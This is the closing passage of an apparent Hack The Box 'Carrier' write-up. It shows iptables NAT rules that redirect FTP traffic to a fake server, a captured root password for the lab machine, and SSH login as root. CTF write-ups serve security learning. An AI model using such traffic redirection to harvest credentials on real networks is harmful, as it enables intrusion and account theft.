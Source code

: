 `iptables -t nat -A PREROUTING -p tcp --dport 21 -j DNAT --to-destination 10.10.xx.xx:21`
<br>
<br>
`iptables -t nat -A POSTROUTING -j MASQUERADE`
#### Then we will wait for someone to access the fake ftp server 
#### `watch cat log.txt` this will do `cat log.txt` and refresh it every 2 seconds (log.txt is where the captured credentials are stored) :
![](/images/hackthebox/carrier/33.png)
#### Finally we get these credentials :
`root:BGPtelc0rout1ng`
#### Now we can ssh to the actual box as root :
![](/images/hackthebox/carrier/34.png)
#### And we owned root !
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>